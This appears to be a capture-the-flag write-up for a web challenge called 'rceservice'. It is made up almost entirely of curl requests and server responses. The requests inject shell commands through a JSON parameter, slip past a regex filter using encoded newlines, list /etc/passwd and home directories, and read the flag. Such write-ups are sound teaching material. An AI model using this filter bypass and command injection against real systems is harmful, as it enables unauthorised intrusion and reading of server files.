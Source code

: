 # Question

<img width="494" alt="Screen Shot 2019-06-05 at 12 15 45 PM" src="https://user-images.githubusercontent.com/14992494/58941539-9aa3dc00-87ae-11e9-8515-5df60db6a29f.png">


# Solution

Command : ls
```
NULL@ROOT:TOOLS eloi$ curl http://challenges.fbctf.com:8085/?cmd=%7B%22cmd%22%3A%22ls%22%7D
<html>
  <body>
    <h1>Web Adminstration Interface</h1>

Attempting to run command:<br/>index.php
<br/><br/>
    <form>
      Enter command as JSON:
      <input name="cmd" />
    </form>
  </body>
</html>
```

Command : ls /etc/passwd
```
NULL@ROOT:TOOLS eloi$ curl http://challenges.fbctf.com:8085/?cmd=%7B%22cmd%22%3A%22ls%20/etc/passwd%22%7D
<html>
  <body>
    <h1>Web Adminstration Interface</h1>

Hacking attempt detected<br/><br/>
    <form>
      Enter command as JSON:
      <input name="cmd" />
    </form>
  </body>
</html>
```

Command : ls /etc/passwd
```
NULL@ROOT:TOOLS eloi$ curl http://challenges.fbctf.com:8085/?cmd=%7B%0A%22cmd%22%3A%22ls%20/etc/passwd%22%0A%7D
<html>
  <body>
    <h1>Web Adminstration Interface</h1>

Attempting to run command:<br/>/etc/passwd
<br/><br/>
    <form>
      Enter command as JSON:
      <input name="cmd" />
    </form>
  </body>
</html>
```

Command : ls /home/
```
NULL@ROOT:TOOLS eloi$ curl http://challenges.fbctf.com:8085/?cmd=%7B%0A%22cmd%22%3A%22ls%20/home/%22%0A%7D
<html>
  <body>
    <h1>Web Adminstration Interface</h1>

Attempting to run command:<br/>rceservice
<br/><br/>
    <form>
      Enter command as JSON:
      <input name="cmd" />
    </form>
  </body>
</html>
```

Command : ls /home/rceservice
```
NULL@ROOT:TOOLS eloi$ curl http://challenges.fbctf.com:8085/?cmd=%7B%0A%22cmd%22%3A%22ls%20/home/rceservice%22%0A%7D
<html>
  <body>
    <h1>Web Adminstration Interface</h1>

Attempting to run command:<br/>flag
jail
<br/><br/>
    <form>
      Enter command as JSON:
      <input name="cmd" />
    </form>
  </body>
</html>
```

Command : cat /home/rceservice/flag
```
NULL@ROOT:TOOLS eloi$ curl http://challenges.fbctf.com:8085/?cmd=%7B%0A%22cmd%22%3A%22cat%20/home/rceservice/flag%22%0A%7D
<html>
  <body>
    <h1>Web Adminstration Interface</h1>

Attempting to run command:<br/><br/><br/>
    <form>
      Enter command as JSON:
      <input name="cmd" />
    </form>
  </body>
</html>
```

Command : /bin/cat /home/rceservice/flag
```
NULL@ROOT:TOOLS eloi$ curl http://challenges.fbctf.com:8085/?cmd=%7B%0A%22cmd%22%3A%22/bin/cat%20/home/rceservice/flag%22%0A%7D
<html>
  <body>
    <h1>Web Adminstration Interface</h1>

Attempting to run command:<br/>fb{pr3g_M@tcH_m@K3s_m3_w@Nt_t0_cry!!1!!1!}
<br/><br/>
    <form>
      Enter command as JSON:
      <input name="cmd" />
    </form>
  </body>
</html>
NULL@ROOT:TOOLS eloi$ 
```

# Flag

fb{pr3g_M@tcH_m@K3s_m3_w@Nt_t0_cry!!1!!1!}
